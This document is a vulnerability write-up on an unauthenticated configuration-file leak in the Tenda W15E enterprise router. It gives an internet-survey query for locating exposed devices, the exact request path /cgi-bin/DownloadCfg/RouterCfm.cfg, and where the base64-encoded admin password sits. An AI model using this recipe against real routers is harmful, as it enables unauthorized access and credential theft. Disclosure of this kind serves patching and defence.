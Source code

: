 # Tenda W15E enterprise router RouterCfm.cfg configuration file leak vulnerability

## Vulnerability Description

Tenda enterprise-grade router RouterCfm.cfg configuration file can be read without authorization, resulting in leaks of sensitive information such as account passwords.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tenda enterprise-grade router</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title=="Tenda | Login" && country="CN"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1642645426007-dae7304a-c0b0-4e24-b622-c4c4cae93f13.png)

Access path

```go
/cgi-bin/DownloadCfg/RouterCfm.cfg
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1642645500607-fbcda323-b8f8-406d-a77a-2cea223b9f77.png)

The backend account password is located in the parameter `sys.userpass` character after decryption of base64

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1642645610038-094fc290-4ccc-4579-8eef-cf7bee34344e.png)


